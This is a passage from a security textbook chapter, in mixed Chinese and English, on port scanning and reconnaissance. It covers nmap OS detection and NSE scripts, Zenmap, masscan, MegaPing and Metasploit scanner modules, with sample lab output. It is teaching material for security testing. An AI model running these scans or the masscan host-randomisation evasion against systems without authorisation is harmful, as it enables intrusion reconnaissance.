`nmap` 之所以知道服务详情，是因为应用程序在 `nmap` 连接时提供信息。不同的应用和协议会提供不同的信息集，这意味着 `nmap` 必须了解如何使用这些协议来获取信息。例如，像 Apache 这类 Web 服务器，系统管理员决定在响应客户端时应在头部提供多少信息。Apache 不仅可以提供产品名称（Apache），还可以提供软件版本、加载的模块以及模块的版本。

## 操作系统扫描与 `nmap`

您可能还想知道远程系统的操作系统是什么。`nmap` 也可以通过操作系统扫描来实现。为了确定操作系统，`nmap` 使用一个指纹库。指纹包含操作系统行为的细节，例如 IP 标识字段的生成方式、初始序列号、初始窗口大小以及其他多项细节。要识别操作系统，`nmap` 必须找到至少一个开放端口和一个关闭端口。

下面的代码展示了操作系统扫描。即使我没有明确指定 TCP 扫描，`nmap` 仍然执行了它。之前已经识别出的开放端口再次被发现。您还会注意到 `nmap` 扫描了两个不同的系统。这也是 `nmap` 可以被指示扫描具体主机而非范围或网络块的方式。如果在命令行中提供多个系统，`nmap` 会对每个指定的系统执行相同的扫描。

```
$ sudo nmap -O 192.168.1.144 192.168.1.214

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-05 18:46 EST

Nmap scan report for deathtongue (192.168.1.144)

Host is up (0.042s latency).

Not shown: 995 closed tcp ports (reset)

PORT     STATE SERVICE

22/tcp   open  ssh

88/tcp   open  kerberos-sec

445/tcp  open  microsoft-ds

5000/tcp open  upnp

7000/tcp open  afs3-fileserver

MAC Address: 14:98:77:31:B2:33 (Apple)

No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

TCP/IP fingerprint:

OS:SCAN(V=7.93%E=4%D=2/5%OT=22%CT=1%CU=35270%PV=Y%DS=1%DC=D%G=Y%M=149877%TM

OS:=63E04033%GCD=1%ISR=107%TI=Z%CI=RD%II=R

OS:I%TS=21)OPS(O1=M5B4NW6NNT11SLL%O2=M5B4NW6NNT11SLL%O3=M5B4NW6NNT11%O4=M5B

OS:4NW6NNT11SLL%O5=M5B4NW6NNT11SLL%O6=M5B4NNT11SLL)WIN(W1=FFFF%W2=FFFF%W3=F

OS:FFF%W4=FFFF%W5=FFFF%W6=FFFF)ECN(R=Y%DF=Y%T=40%W=FFFF%O=M5B4NW6SLL%CC=Y%Q

OS:=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%

OS:W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=N%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=

OS:)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=N%T=40%W=0%S=Z%A=

OS:S%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=38%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK

OS:=0%RUD=G)IE(R=Y%DFI=S%T=40%CD=S)

Network Distance: 1 hop

Nmap scan report for limekiller (192.168.1.214)

Host is up (0.053s latency).

Not shown: 997 filtered tcp ports (no-response)

PORT    STATE SERVICE

135/tcp open  msrpc

139/tcp open  netbios-ssn

445/tcp open  microsoft-ds

MAC Address: 54:14:F3:B8:A3:9E (Intel Corporate)

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port

Aggressive OS guesses: Microsoft Windows 10 (95%), Microsoft Windows Server 2008 SP1 (90%), Microsoft Windows 10 1703 (89%), Microsoft Windows 10 1511 - 1607 (88%), Microsoft Windows Phone 7.5 or 8.0 (88%), Microsoft Windows 10 1511 (87%), Microsoft Windows Server 2008 R2 or Windows 8.1 (87%), Microsoft Windows Server 2016 (87%), Microsoft Windows 7 Professional or Windows 8 (87%), Microsoft Windows 7 (87%)

No exact OS matches for host (test conditions non-ideal).

Network Distance: 1 hop

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 2 IP addresses (2 hosts up) scanned in 116.89 seconds
```

-   [nmap](https://nmap.org) 依赖于指纹，与人不同，同一指纹可以匹配多个操作系统。只要网络栈没有变化，你会发现多个商业操作系统的不同版本会匹配同一指纹。你可以在 Windows 系统的扫描中看到这一点。目标上运行的版本会落在 `nmap` 指示的范围内。还需要注意，`nmap` 会跟踪操作系统。操作系统实际上是内核——负责管理硬件、内存和进程的软件。其他帮助用户与操作系统交互的内容位于操作环境中，用于区分用途。在 Linux 中，同一个内核可能被多个发行版使用，但因为只识别内核，无法判断具体是哪个发行版。`nmap` 只能告诉你你运行的 Linux 内核版本，而不能区分 Ubuntu 与 CentOS 等。由于我们依赖指纹来识别操作系统，`nmap` 并不总能在操作系统更新时检测到版本。这在 Apple 系统中尤为明显。我们可以通过 MAC 地址判断是 Apple 系统。目标运行的是 Ventura 13.2，截至本次扫描，该版本尚未被加入 `nmap` 数据库。

## Scripting

我们已经看到 `nmap` 拥有大量功能，即便如此，仍可进一步扩展。`nmap` 包含一个脚本引擎，使用户可以以任何想要的方式扩展其功能。虽然这不完全是让你自行扩展功能，但脚本引擎已存在，并不完全由你决定如何使用它。随着最新版本的 `nmap`，已有数百个脚本可用，且数量在持续增长。它们被分为若干类别，当前包括 `auth`、`broadcast`、`brute`、`default`、`discovery`、`dos`、`exploit`、`external`、`fuzzer`、`intrusive`、`malware`、`safe`、`version`、`vuln`。你可以让 `nmap` 运行某一类别的所有脚本。下面的代码展示了让 `nmap` 运行 `discovery` 类别所有脚本的示例。

### `nmap` Discovery Scripts

```
$ sudo nmap -sS --script=discovery 192.168.86.0/24

Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-15 17:48 EST

Pre-scan script results:

|_http-robtex-shared-ns: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/

| targets-asn: 

|_  targets-asn.asn is a mandatory parameter

|_hostmap-robtex: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/

| ipv6-multicast-mld-list: 

|   fe80::a483:e7ff:fe9c:6f65: 

|     device: ens33

|     mac: a6:83:e7:9c:6f:65

|     multicast_ips: 

|_      ff02::fb                  (mDNSv6)

| targets-ipv6-multicast-mld: 

|   IP: fe80::a483:e7ff:fe9c:6f65  MAC: a6:83:e7:9c:6f:65  IFACE: ens33

| 

|_  Use --script-args=newtargets to add the results as targets

| broadcast-ping: 

|   IP: 192.168.79.2  MAC: 00:50:56:f6:4b:60

|   IP: 192.168.79.1  MAC: a6:83:e7:9c:6f:65

|_  Use --script-args=newtargets to add the results as targets

| targets-ipv6-multicast-echo: 

|   IP: fe80::a483:e7ff:fe9c:6f65  MAC: a6:83:e7:9c:6f:65  IFACE: ens33

|_  Use --script-args=newtargets to add the results as targets

| targets-ipv6-multicast-invalid-dst: 

|   IP: fe80::a483:e7ff:fe9c:6f65  MAC: a6:83:e7:9c:6f:65  IFACE: ens33

|_  Use --script-args=newtargets to add the results as targets
```

要使用脚本，需要通过 `--script=` 参数后跟脚本名称来指定。除了直接使用脚本名，还可以指定类别，如上例所示。在 Linux 系统上，已安装的脚本通常位于 `/usr/share/nmap/scripts`；在 Windows 系统上，则位于 `nmap` 安装目录的 Program Files 文件夹中。你会发现这些脚本的文件扩展名为 `.nse`，属于 "`nmap` scripting engine"。脚本使用 Lua 语言编写，每个文件都可以打开并阅读，以便了解脚本的功能。如果你更倾向让 `nmap` 提供脚本信息，可以使用 `--script-help` 并传入脚本名称。例如，想获取 `http-waf-detect.nse` 的详细信息，可这样调用 `nmap` 并看到响应的开头：

### `nmap` Script Help

```
$ nmap --script-help=http-waf-detect.nse

Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-15 17:51 EST
  
http-waf-detect

Categories: discovery intrusive

https://nmap.org/nsedoc/scripts/http-waf-detect.html

   Attempts to determine whether a web server is protected by an IPS (Intrusion

   Prevention System), IDS (Intrusion Detection System) or WAF (Web Application

   Firewall) by probing the web server with malicious payloads and detecting

   changes in the response code and body.

  

   To do this the script will send a "good" request and record the response,

   afterwards it will match this response against new requests containing

   malicious payloads. In theory, web applications shouldn't react to malicious

   requests because we are storing the payloads in a variable that is not used by

   the script/file and only WAF/IDS/IPS should react to it.  If aggro mode is set,

   the script will try all attack vectors (More noisy)

  

   This script can detect numerous IDS, IPS, and WAF products since they often

   protect web applications in the same way.  But it won't detect products which

   don't alter the http traffic.  Results can vary based on product configuration,

   but this script has been tested to work against various configurations of the

   following products:

  

   * Apache ModSecurity

   * Barracuda Web Application Firewall

   * PHPIDS

   * dotDefender

   * Imperva Web Application Firewall

   * Blue Coat SG 400
 
```

另一种获取此信息的方式是直接查看脚本本身。编写 `nmap` 脚本时会设置多个变量，其中之一是 `description`，它在调用 `script-help` 时会被打印出来。此外，你还会看到使用说明，指示如何在 `nmap` 中调用该脚本，以及顶部的 `require` 语句，这些语句用于引入脚本引擎提供的功能模块。这些模块是脚本被 `nmap` 调用所必需的。

### Top of the `http-waf-detect.nse` File

```lua
local http = require "http"
local shortport = require "shortport"
local stdnse = require "stdnse"
local string = require "string"
local table = require "table"
```

description = [[

尝试通过发送恶意负载并检测响应代码和内容的变化，判断目标 Web 服务器是否受 IPS（入侵防御系统）、IDS（入侵检测系统）或 WAF（Web 应用防火墙）保护。

为此，脚本会先发送一次“正常”请求并记录响应，随后将该响应与包含恶意负载的新请求进行匹配。理论上，Web 应用不应响应恶意请求，因为我们将负载存储在未被脚本使用的变量中，只有 WAF/IDS/IPS 应该对此作出反应。如果启用了“aggro”模式，脚本会尝试所有攻击向量（更吵闹）。

本脚本能够检测众多 IDS、IPS 和 WAF 产品，因为它们通常以相同方式保护 Web 应用。但无法检测那些不修改 HTTP 流量的产品。结果会因产品配置而异，但本脚本已在以下产品的多种配置上测试通过：

* `Apache ModSecurity`

* `Barracuda Web Application Firewall`

* `PHPIDS`

* `dotDefender`

* `Imperva Web Application Firewall`

* `Blue Coat SG 400`

]]

---

-- @usage

-- nmap -p80 --script http-waf-detect <host>

-- nmap -p80 --script http-waf-detect --script-args="http-waf-detect.aggro,http-waf-detect.uri=/testphp.vulnweb.com/artists.php" www.modsecurity.org

--

-- @output

-- PORT   STATE SERVICE

-- 80/tcp open  http
```


```
-- |_http-waf-detect: IDS/IPS/WAF detected
--
-- @args http-waf-detect.uri Target URI. Use a path that does not redirect to a different page
-- @args http-waf-detect.aggro If aggro mode is set, the script will try all attack vectors to trigger the IDS/IPS/WAF
-- @args http-waf-detect.detectBodyChanges If set it also checks for changes in the document's body
```

## Nmap Using Wildcards

You can call individual scripts, or let `nmap` select multiple scripts using wildcards. For example, to run all scripts related to the Server Message Block (SMB) protocol version 2, specify `smb2*`. All scripts whose names start with `smb2` will be executed. If the SMB ports are open, three scripts will run. You can see the command and results in the following code listing. The port scan identified port 445 as open, which is the port used for the Common Internet File System (CIFS), an implementation of SMBv2. This port triggered the script execution; when `nmap` found the port open, it identified all scripts registered for that port and ran them.

**Nmap Using Wildcards**

```
$ sudo nmap -sS --script "smb2*" -T 4 192.168.86.32

Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-15 17:54 EST
Nmap scan report for billthecat.lan (192.168.86.32)
Host is up (0.00024s latency).
Not shown: 500 closed ports, 495 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
88/tcp   open  kerberos-sec
445/tcp  open  microsoft-ds
548/tcp  open  afp
5900/tcp open  vnc
MAC Address: AC:87:A3:36:D6:AA (Apple)
Host script results:
| smb2-capabilities:
|   2.10:
|     Leasing
|     Multi-credit operations
|   3.00:
|     Leasing
|     Multi-credit operations
|     Encryption
|   3.02:
|     Leasing
|     Multi-credit operations
|_    Encryption
| smb2-security-mode:
|   2.10:
|_    Message signing enabled and required
|_smb2-time: Protocol negotiation failed (SMB2)
Nmap done: 1 IP address (1 host up) scanned in 3.44 seconds
```

As you can see, `nmap` scripts can collect a lot of information about different services. As of this writing, there are more than 600 scripts. More than 30 of them are specifically targeted at identifying whether a server is potentially exposed to a vulnerability identified by a Common Vulnerabilities and Exposures (CVE) identifier. Other scripts identify systems vulnerable to other exposures. For example, there is a script that looks for the Decrypting RSA with Obsolete and Weakened eNcryption (DROWN) vulnerability in servers running Secure Sockets Layer (SSL) version 2. This was a serious vulnerability, identifiable by interacting with the system using SSL.

If you have programming experience, extending `nmap` with your own scripts is straightforward. All NSE scripts are plain text, so you can use any of them as a starting point or as code samples to create your own script. Keep in mind that while `nmap` is a port scanner, the scripting engine enables deeper interactions with applications. Scripts can make programmatic determinations based on service responses. The scripting engine modules not only provide functionality to interact with services, including registering ports with `nmap` so the script runs when the identified port is open, but also include output modules that present results back to `nmap` when the script completes.

### Zenmap

You can use the command line for all `nmap` scans, but you don't have to if you prefer a GUI. For years, only the command line was available. Attempts to create GUIs overlaying `nmap` existed, and Google Summer of Code produced Zenmap, a GUI that has remained the front-end for `nmap` for years. Zenmap is an overlay; it runs `nmap` underneath and displays the results in a graphical interface. With Zenmap, you don't need to think about the specific scan type; you select a scan name from a pull-down menu (see Figure 5.3).



**FIGURE 5.3** Zenmap scan types

You will also see a command box. Selecting different scan types changes the command line. Instead of options like SYN scan or full connect scan, you can choose intense scan, quick scan, regular scan, and others. Intense scans set a high throttle to complete the scan faster. Regular scans keep the default throttle. A slow comprehensive scan also increases the throttle. If none of the provided scan types suit you, you can edit the command line directly and run any custom command.

The advantage of Zenmap is not just the ability to select predefined scan settings, but also visualizing the output. The command line produces extensive text that you must parse; Zenmap organizes the results, showing hosts on the left side and a small icon indicating the detected operating system. You also get the regular `nmap` output if you prefer to view it directly. Zenmap can make it easier to interpret the results.

Figure 5.4 显示了可视化输出的另一种方式。再次，进行端口扫描的重要方面之一是识别服务，随后识别应用。在 Figure 5.4 的左侧，点击 **Services** 按钮会显示扫描中识别出的所有服务列表。选择其中一个服务，会显示在扫描期间正在运行该服务的所有主机。如果查看 Figure 5.4 的右侧，你会看到主机列表，同时在某些情况下还能看到该主机上运行的应用及其版本。



**FIGURE 5.4** Zenmap service output

Zenmap 另一个有用的功能是保存扫描。OK，它不仅仅是保存扫描的功能。最终，你可以在 `nmap` 中保存扫描。Zenmap 会比较两个已保存的扫描。这意味着你可以先建立网络的基线，然后稍后再次检查，看看有什么变化。如果你多次测试同一网络，能够获得历史差异会很有用。你不仅能看到不同的主机，还能看到不同的服务。

虽然我一般更倾向于使用命令行，但有时 GUI 工具会更有用。我更喜欢从命令行运行扫描，但 Zenmap 的可视化和组织能力让我觉得值得使用。当然，Zenmap 不要求你在 Zenmap 中进行初始扫描。你可以在 `nmap` 中运行扫描，将输出保存为 XML 格式，然后在 Zenmap 中打开 XML 文件，获取我们在此讨论的所有好处。

### `masscan`

你是否曾想过只扫描整个互联网，以识别所有响应的 Web 服务器？显然，如果要做这件事，你会希望以最高速度进行，尽可能快。根据 `masscan` 的开发者 Robert Graham 的说法，这正是 `masscan` 的初衷。其核心是一个端口扫描工具，它执行 `nmap` 的许多相同操作。不同之处在于它被设计用来尽可能快地运行，受限于你的系统和网络连接的速度。

由于 `nmap` 已成为事实上的端口扫描工具，而熟悉端口扫描的人知道 `nmap` 的用法，`masscan` 使用与 `nmap` 相同的命令行参数。端口扫描本身并不复杂，关键是告诉扫描器要扫描哪些端口以及扫描哪些系统。下面的代码展示了使用 `masscan` 识别所有 Web 服务器的过程。与 `nmap` 相比，你会发现指示端口的参数相同。你还会注意到，我把扫描类型留空，`masscan` 为我填入了 `-sS`。

**`masscan` 识别 Web 服务器**

```
$ sudo masscan --rate=100000 -p80,443 192.168.86.0/24

Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-11-15 22:55:40 GMT
Initiating SYN Stealth Scan
Scanning 256 hosts [2 ports/host]
Discovered open port 80/tcp on 192.168.86.250
Discovered open port 80/tcp on 192.168.86.1
Discovered open port 80/tcp on 192.168.86.35
Discovered open port 443/tcp on 192.168.86.44
Discovered open port 443/tcp on 192.168.86.245
Discovered open port 80/tcp on 192.168.86.247
Discovered open port 80/tcp on 192.168.86.38
Discovered open port 80/tcp on 192.168.86.44
```

最显著的区别在于 `rate` 参数的加入。该参数以每秒包数为单位，可使用小数形式（如 0.5）表示每 2 秒发送一个包。这里请求的速率为每秒 100,000 包。实际效果会因目标、可用带宽以及系统和网络接口的发送能力而异。

你可能还注意到 `masscan` 强制使用 `--randomize-hosts`，这意味着测试的 IP 地址顺序不会是数值顺序，而是随机排列。随机化主机顺序的目的在于绕过网络监控工具。如果按顺序扫描，监控工具很容易识别出扫描正在进行。随机化扫描使情况不那么明显。如果同时降低速率，这种效果会更明显。

`masscan` 不仅仅做端口扫描，它还能进行非常快速的扫描，甚至进行类似 `nmap` 的信息收集。你可以使用 `--banners` 参数让 `masscan` 捕获服务标题。具体做法如下：

**使用 `masscan` 获取标题**

```
$ sudo masscan -sS --banners --rate=100000 -p80,443 192.168.86.0/24

Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-11-15 23:01:13 GMT
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 256 hosts [2 ports/host]
Discovered open port 80/tcp on 192.168.86.162
Discovered open port 80/tcp on 192.168.86.1
Discovered open port 80/tcp on 192.168.86.160
Discovered open port 80/tcp on 192.168.86.250
Discovered open port 80/tcp on 192.168.86.44
Discovered open port 80/tcp on 192.168.86.35
Discovered open port 443/tcp on 192.168.86.245
Discovered open port 80/tcp on 192.168.86.196
Discovered open port 80/tcp on 192.168.86.247
Banner on port 80/tcp on 192.168.86.35: [http] HTTP/1.1 200 OK\x0d\x0aConnection: close\x0d\x0aContent-Type: text/html\x0d\x0aCache-Control: no-cache\x0d\x0aExpires: -1\x0d\x0a\x0d
Banner on port 80/tcp on 192.168.86.35: [title] Redirect to Login
```


你会发现只有其中一个系统显示了标题，且标题中没有服务器类型。相同的服务器暗示可能会跳转到登录页面。使用 `nmap` 运行相同的扫描会返回服务器类型。`masscan` 不具备 `nmap` 的全部功能，包括不支持诸如 Xmas、FIN、ACK 等非标准 TCP 扫描类型，也不支持 UDP 扫描。如果需要这些功能，可以使用 `nmap`，它是免费的且足以应付这类扫描。`masscan` 为你提供的是自定义扫描速率的能力以及进行极快扫描的能力。

### MegaPing

我们之前已经了解过 MegaPing 进行 ping 探测的能力。如前所述，MegaPing 还具备多种功能，包括能够进行端口扫描。这些扫描并非普通的扫描。你会记得，`nmap` 默认扫描 1,000 个端口，这些是常用端口。你当然可以选择其他端口。MegaPing 为我们提供了 `nmap` 所没有的预设端口集合。你可以在 Figure 5.5 的下拉菜单中看到不同的端口选择。其中之一是 **Hostile Ports**，这些是常被误用的端口，以及可能被木马程序和其他恶意软件（malware）利用的端口。底部列出了包含在扫描类型中的端口列表。



**FIGURE 5.5** MegaPing scan types

要在 MegaPing 中运行扫描，你需要在界面左侧选择 `Port Scanner`。然后需要添加你的扫描目标。MegaPing 的一个缺点是它不接受 CIDR 块作为目标，也不接受地址范围。如果你想扫描多个 IP 地址，需要逐个添加。你会在中间的框中看到可以添加地址的区域，然后选择要扫描的地址。如果只想扫描一个地址，只需在 `Destination Address List` 下方的框中输入该地址，然后点击 `Start`。Figure 5.6 展示了对恶意端口进行扫描的结果。



**FIGURE 5.6** MegaPing scan report

在查看结果时，你可能会注意到某些常用端口被标记为打开。例如，在旁边的 `80`（www‑http）端口旁的注释会说明它们是“提权端口”。这些端口需要管理员权限才能打开。这意味着攻击者会将这些端口作为目标，因为 compromise 该端口背后的应用即可直接获得管理员权限。另一种扫描类型是 `Authorized Ports`，它只扫描预期存在的应用端口范围。其余端口被视为短暂的（ephemeral），即客户端在与服务器建立连接时动态分配的源端口。

### Metasploit

Metasploit 主要以 exploit 框架闻名，你会在想要开始利用服务、获得未授权访问时使用它。但它也提供了数千个模块，这些模块并非专门用于利用服务。我们可以使用 Metasploit 进行端口扫描。为了让你了解可以进行哪些端口扫描，下面列出了当时可用的模块（通过 `msfconsole` 获取）：

```
msf>> search portscan

Matching Modules

================

   #  Name                                              Disclosure Date  Rank    Check  Description

   -  ----                                              ---------------  ----    -----  -----------

   0  auxiliary/scanner/portscan/ftpbounce                               normal  No     FTP Bounce Port Scanner

   1  auxiliary/scanner/natpmp/natpmp_portscan                           normal  No     NAT-PMP External Port Scanner

   2  auxiliary/scanner/sap/sap_router_portscanner                       normal  No     SAPRouter Port Scanner

   3  auxiliary/scanner/portscan/xmas                                    normal  No     TCP "XMas" Port Scanner

   4  auxiliary/scanner/portscan/ack                                     normal  No     TCP ACK Firewall Scanner

   5  auxiliary/scanner/portscan/tcp                                     normal  No     TCP Port Scanner

   6  auxiliary/scanner/portscan/syn                                     normal  No     TCP SYN Port Scanner

   7  auxiliary/scanner/http/wordpress_pingback_access                   normal  No     Wordpress Pingback Locator

```

可以看出，我们可以使用与 `nmap` 类似的技术。`nmap` 使用命令行开关，即使在 Zenmap 中也是如此；而 Metasploit 则更具交互性。你需要设置参数或变量，为正在使用的模块提供扫描目标网络所需的信息。以下是使用 `msfconsole` 进行扫描时的输出：

1. 你需要使用的模块以路径形式表示，因为它是以文件路径存储的。例如，`syn` 模块是文件系统中的 `syn.rb` 文件，它是一段 Ruby 脚本，利用 Metasploit 提供的库函数。

2. 加载模块后，开始设置参数。

    在进行端口扫描时，通常只需设置远程主机 (`RHOSTS`) 参数，除非你针对特定端口。

    ```
    msf>> use scanner/portscan/syn

    msf auxiliary(scanner/portscan/syn)>> set RHOSTS 192.168.1.0/24

    RHOSTS => 192.168.1.0/24

    msf auxiliary(scanner/portscan/syn)>> show options

    Module options (auxiliary/scanner/portscan/syn):

       Name       Current Setting  Required  Description

       ----       ---------------  --------  -----------

       BATCHSIZE  256              yes       The number of hosts to scan per set

       DELAY      0                yes       The delay between connections, per thread,

                                             in milliseconds

       INTERFACE                   no        The name of the interface

       JITTER     0                yes       The delay jitter factor (maximum value

                                             by which to +/- DELAY) in milliseconds.

       PORTS      1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)

